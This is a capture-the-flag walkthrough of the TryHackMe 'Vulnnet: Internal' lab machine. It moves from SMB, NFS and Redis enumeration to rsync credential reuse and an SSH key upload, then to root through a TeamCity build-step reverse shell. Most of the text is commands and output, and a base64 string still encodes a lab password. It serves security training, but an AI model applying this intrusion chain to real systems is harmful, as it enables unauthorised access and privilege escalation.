

# Vulnnet: Internal
**Date:** January 28th 2023

**Author:** j.info

**Link:** [**Vulnnet: Internal**](https://tryhackme.com/room/vulnnetinternal) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Easy

<br>


<br>

## Objectives
- What is the services flag? (services.txt)
- What is the internal flag? ("internal flag")
- What is the user flag? (user.txt)
- What is the root flag? (root.txt)

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 -Pn $ip`

```
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
111/tcp  open     rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      33011/tcp   mountd
|   100005  1,2,3      33297/udp6  mountd
|   100005  1,2,3      35975/tcp6  mountd
|   100005  1,2,3      51132/udp   mountd
|   100021  1,3,4      35781/tcp6  nlockmgr
|   100021  1,3,4      44285/tcp   nlockmgr
|   100021  1,3,4      47735/udp6  nlockmgr
|   100021  1,3,4      60665/udp   nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl

139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open     netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp  open     rsync       (protocol version 31)
2049/tcp open     nfs_acl     3 (RPC #100227)
9090/tcp filtered zeus-admin
Service Info: Host: VULNNET-INTERNAL; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: -19m59s, deviation: 34m38s, median: 0s
|_nbstat: NetBIOS name: VULNNET-INTERNA, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2023-01-28T17:10:24
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: vulnnet-internal
|   NetBIOS computer name: VULNNET-INTERNAL\x00
|   Domain name: \x00
|   FQDN: vulnnet-internal
|_  System time: 2023-01-28T18:10:24+01:00
```

An additional all ports scan shows us:

```
PORT     STATE SERVICE VERSION
6379/tcp open  redis   Redis key-value store
33011/tcp open  mountd  1-3 (RPC #100005)
43559/tcp open  mountd  1-3 (RPC #100005)
44285/tcp open  nlockmgr 1-4 (RPC #100021)
57991/tcp open  mountd  1-3 (RPC #100005)
```

<br>

## SMB Digging

Checking to see if we can connect over to SMB with a null session:

`smbclient -L //$ip`

```
        Sharename       Type      Comment
        ---------       ----      -------
        print$          Disk      Printer Drivers
        shares          Disk      VulnNet Business Shares
        IPC$            IPC       IPC Service (vulnnet-internal server (Samba, Ubuntu))
Reconnecting with SMB1 for workgroup listing.

        Server               Comment
        ---------            -------

        Workgroup            Master
        ---------            -------
        WORKGROUP
```

Alright let's take a look at those shares and see what we can find.

`smbclient //$ip/print$ -N`

```
tree connect failed: NT_STATUS_ACCESS_DENIED
```

`smbclient //$ip/IPC$ -N`

```
Try "help" to get a list of possible commands.
smb: \> ls
NT_STATUS_OBJECT_NAME_NOT_FOUND listing \*
smb: \> exit
```

`smbclient //$ip/shares -N`

```
Try "help" to get a list of possible commands.
smb: \> recurse
smb: \> ls
  .                                   D        0  Tue Feb  2 04:20:09 2021
  ..                                  D        0  Tue Feb  2 04:28:11 2021
  temp                                D        0  Sat Feb  6 06:45:10 2021
  data                                D        0  Tue Feb  2 04:27:33 2021

\temp
  .                                   D        0  Sat Feb  6 06:45:10 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  services.txt                        N       38  Sat Feb  6 06:45:09 2021

\data
  .                                   D        0  Tue Feb  2 04:27:33 2021
  ..                                  D        0  Tue Feb  2 04:20:09 2021
  data.txt                            N       48  Tue Feb  2 04:21:18 2021
  business-req.txt                    N      190  Tue Feb  2 04:27:33 2021

                11309648 blocks of size 1024. 3265384 blocks available
smb: \> prompt
smb: \> mget *
getting file \temp\services.txt of size 38 as temp/services.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \data\data.txt of size 48 as data/data.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \data\business-req.txt of size 190 as data/business-req.txt (0.6 KiloBytes/sec) (average 0.3 KiloBytes/sec)
smb: \> quit
```

The only share with any information in it was on shares and we downloaded 3 files. Looking at them:

services.txt contains one of our flags:

```
THM{<REDACTED>}
```

data.txt:

```
Purge regularly data that is not needed anymore
```

business-req.txt:

```
We just wanted to remind you that we’re waiting for the DOCUMENT you agreed to send us so we can complete the TRANSACTION we discussed.
If you have any questions, please text or phone us.
```

<br>

## NFS Digging

Port 2049 is open so let's see what's available to mount there and take a look at the files:

`showmount -e $ip`

```
Export list for 10.10.210.255:
/opt/conf *
```

And trying to mount that works and let's us start looking at the files:

`sudo mount -t nfs $ip:/opt/conf ~/work/nfs -o nolock`

```
drwxr-xr-x 9 root root 4096 Feb  2  2021 .
drwxr-xr-x 7 kali kali 4096 Jan 28 21:27 ..
drwxr-xr-x 2 root root 4096 Feb  2  2021 hp
drwxr-xr-x 2 root root 4096 Feb  2  2021 init
drwxr-xr-x 2 root root 4096 Feb  2  2021 opt
drwxr-xr-x 2 root root 4096 Feb  2  2021 profile.d
drwxr-xr-x 2 root root 4096 Feb  2  2021 redis
drwxr-xr-x 2 root root 4096 Feb  2  2021 vim
drwxr-xr-x 2 root root 4096 Feb  2  2021 wildmidi
```

I start looking through the files and the first interesting thing I find is in the redis directory for this file:

```
-rw-r--r-- 1 root root 58922 Feb  2  2021 redis.conf
```

Which contains this line:

```
requirepass "<REDACTED>"
```

Nothing else stands out in the remaining files other than why is there a wildmidi music related config file.

You can unmount the NFS by typing:

```
sudo umount FOLDER
```

<br>

## Redis Digging

We know that the Redis port is open, and we found a potential password on the NFS, so let's see what we can find there.

I connect over using the redis-cli tool and see authentication is required:

`redis-cli -h $ip`

```
10.10.210.255:6379> info
NOAUTH Authentication required.
```

The auth command lets you authenticate with Redis. I use it with the password we found on the NFS:

`auth <REDACTED>`

```
10.10.210.255:6379> auth <REDACTED>
OK
```

`info`

```
10.10.210.255:6379> info
# Server
redis_version:4.0.9
<SNIP>
```

I further enumerate:

`client list`

```
10.10.210.255:6379> client list
id=10 addr=10.6.0.242:52896 fd=8 name= age=278 idle=0 flags=N db=0 sub=0 psub=0 multi=-1 qbuf=0 qbuf-free=32768 obl=0 oll=0 omem=0 events=r cmd=client
```

`config get *`

```
10.10.210.255:6379> config get *
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) "<REDACTED>"
<SNIP>
```

`info keyspace`

```
10.10.210.255:6379> info keyspace
# Keyspace
db0:keys=5,expires=0,avg_ttl=0
```

`select 0`

`keys *`

```
10.10.210.255:6379> select 0
OK
10.10.210.255:6379> keys *
1) "authlist"
2) "internal flag"
3) "int"
4) "marketlist"
5) "tmp"
```

Using get to look at the keys:

```
10.10.210.255:6379> get authlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.210.255:6379> get "internal flag"
"THM{<REDACTED>}"
10.10.210.255:6379> get int
"10 20 30 40 50"
10.10.210.255:6379> get marketlist
(error) WRONGTYPE Operation against a key holding the wrong kind of value
10.10.210.255:6379> get tmp
"temp dir..."
```

That gives us our second flag.

We weren't able to view authlist or marketlist so let's figure out why. I look at the type of the keys and see them as lists which is why get isn't working. Get works on string types but not lists:

```
10.10.210.255:6379> type authlist
list
10.10.210.255:6379> type marketlist
list
```

To view lists in Redis we need to use the lrange command:

`lrange marketlist 0 9999`

```
10.10.210.255:6379> lrange marketlist 0 9999
1) "Machine Learning"
2) "Penetration Testing"
3) "Programming"
4) "Data Analysis"
5) "Analytics"
6) "Marketing"
7) "Media Streaming"
```

`lrange authlist 0 9999`

```
10.10.210.255:6379> lrange authlist 0 9999
1) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
2) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
3) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
4) "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg=="
```

So we have some base64 text in the authlish, and all 4 of those look identical. Let's decode it and see what it says:

`echo "QXV0aG9yaXphdGlvbiBmb3IgcnN5bmM6Ly9yc3luYy1jb25uZWN0QDEyNy4wLjAuMSB3aXRoIHBhc3N3b3JkIEhjZzNIUDY3QFRXQEJjNzJ2Cg==" | base64 -d
`

```
Authorization for rsync://rsync-connect@127.0.0.1 with password <REDACTED>
```

Well that seems helpful.

If you have permission you can sometimes upload your ssh public key into a users authorized_keys file and then just ssh over. I check to see if we can access the redis users .ssh and we can't:

`config set dir /home/redis/.ssh`

```
10.10.210.255:6379> config set dir /home/redis/.ssh
(error) ERR Changing directory: Permission denied
```

<br>

## Rsync Digging

We know port 873 is open, and we have a username and password to authenticate with it, so let's see what we can find. I run the following command which will download all files on the server to your current directory:

`rsync -av rsync://rsync-connect@$ip:873/files .`

It downloaded everything to the sys-internal directory on our system:

```
drwxr-xr-x 18 kali kali 4096 Feb  6  2021 sys-internal
```

And looking at the files:

```
total 108
drwxr-xr-x 18 kali kali 4096 Feb  6  2021 .
drwxr-xr-x  3 kali kali 4096 Feb  1  2021 ..
lrwxrwxrwx  1 kali kali    9 Feb  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 kali kali  220 Feb  1  2021 .bash_logout
-rw-r--r--  1 kali kali 3771 Feb  1  2021 .bashrc
drwxrwxr-x  8 kali kali 4096 Feb  2  2021 .cache
drwxrwxr-x 14 kali kali 4096 Feb  1  2021 .config
drwx------  3 kali kali 4096 Feb  1  2021 .dbus
drwx------  2 kali kali 4096 Feb  1  2021 Desktop
-rw-r--r--  1 kali kali   26 Feb  1  2021 .dmrc
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Documents
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Downloads
drwx------  3 kali kali 4096 Feb  1  2021 .gnupg
drwxrwxr-x  3 kali kali 4096 Feb  1  2021 .local
drwx------  5 kali kali 4096 Feb  1  2021 .mozilla
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Music
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Pictures
-rw-r--r--  1 kali kali  807 Feb  1  2021 .profile
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Public
lrwxrwxrwx  1 kali kali    9 Feb  2  2021 .rediscli_history -> /dev/null
drwxrwxr-x  2 kali kali 4096 Feb  6  2021 .ssh
-rw-r--r--  1 kali kali    0 Feb  1  2021 .sudo_as_admin_successful
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Templates
drwx------  4 kali kali 4096 Feb  2  2021 .thumbnails
-rw-------  1 kali kali   38 Feb  6  2021 user.txt
drwxr-xr-x  2 kali kali 4096 Feb  1  2021 Videos
-rw-------  1 kali kali   61 Feb  6  2021 .Xauthority
-rw-r--r--  1 kali kali   14 Feb 12  2018 .xscreensaver
-rw-------  1 kali kali 2546 Feb  6  2021 .xsession-errors
-rw-------  1 kali kali 2546 Feb  6  2021 .xsession-errors.old
```

We have our user.txt flag, so that's 3 of the 4 down.

Right away the .ssh sticks out to me but I take a look at what's out there with a `tree -a` command and don't see much of interest.

Rsync should allow us to upload a file, which means we can upload a ssh key to the .ssh directory and then connect over.

To do this you need a ssh key pair which can be created with `ssh-keygen -t rsa`.

Once you have that you can copy the id_rsa.pub file over to authorized_keys by changing over to ~/.ssh and then:

`cat id_rsa.pub >> authorized_keys`

I then create a directory and move the authorized_keys file over to it, and then change to the directory.

With that done I run the following command to send our file to the server:

`rsync -av . rsync://rsync-connect@$ip:873/files/sys-internal/.ssh`

```
Password: 
sending incremental file list
./
authorized_keys

sent 699 bytes  received 38 bytes  77.58 bytes/sec
total size is 563  speedup is 0.76
```

<br>

## System Access

Ok we have everything in place, let's try and connect over.

`ssh -i id_rsa sys-internal@$ip`


We're in!

<br>

## System Enumeration

Let's look around. I check `sudo -l` and it requires a password.

Looking at the users on the system shows that this user and root are the only ones here.

No interesting capabilities for us to exploit.

I check `find / -perm /4000 2>/dev/null` for any interesting SUID files but everything is normal there.

Looking around the file system I see an unusual directory in / called TeamCity. I do a quick google search and this is something made by Jetbrains that usually runs on port 8111 by default on Linux systems.

I look at what ports are listening on the system and sure enough port 8111 is. It didn't show up in our nmap scans though so it's not accessible externally.

`ss -lntu`

```
tcp      LISTEN     0          100             [::ffff:127.0.0.1]:8111
```

Looking through the files in /TeamCity I notice a logs directory and inside that there are 3 files we have read access to. Inside the catalina.out file is the following:

```
[TeamCity] Super user authentication token: <REDACTED> (use empty username with the token as the password to access the server)
```

Awesome. It's up and running and we likely have credentials for it. Since it's not reachable from our home system I'm going to create an ssh tunnel so we can access it.

On my home system I run the following to set up the tunnel:

`ssh -L 8111:localhost:8111 -i id_rsa sys-internal@$ip`

And then in a browser I attempt to access localhost on port 8111:


It worked, and now I try to login with the info we found in the catalina.out file:


After logging in I look around at the various menus and don't find anything that will let me upload a reverse shell or anything like that.

Back on the main page there is a create project button so let's see if we can do something there. I click create project and then choose the manually tab:



After clicking create it says at the top of the screen that it wants us to create a build configuration:

```
Project "RevShell" has been successfully created. You can now create a build configuration.
```

So I click the create build configuration button and set it up:


The next screen wants us to add a VCS root which I just use the skip button on. This takes us to a configuration page for the project and I open up the build steps menu item on the left:


I configure it like this:


I got the python arguments reverse shell code from revshells.com and chose to use python3 shortest. Make sure to remove python3 from the front after pasting it in.

After finishing up on that screen it tells us we can now run the build:


<br>

## Root

I set up a listener on my system and click the run button, which gives us a shell back as root and I grab the final flag:


<br>

With that we've completed this CTF!


<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap**
- Manual SMB enumeration with **smbclient**
- Finding an open **NFS mount** and mounting it to a folder on our local system, which has a Redis config file with the password inside it
- Using **redis-cli** to look through the Redis server which yields yet another login, this time for the rsync service
- Using **rsync** to download files from the server, which has the folder set to a users home directory
- Uploading an authorized_keys file to the users .ssh directory with **rsync** so we can SSH over
- Noticing an internal service running on port 8111 called **TeamCity** and finding credentials for it in log files
- Setting up an **SSH tunnel** to port 8111 on the target system so that we can use the TeamCity website on our local machine
- Creating a project in TeamCity that I was able to configure to run **custom Python code** that created a reverse shell back to us when we started the project build

<br>

Many thanks to:
- [**SkyWaves**](https://tryhackme.com/p/SkyWaves) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)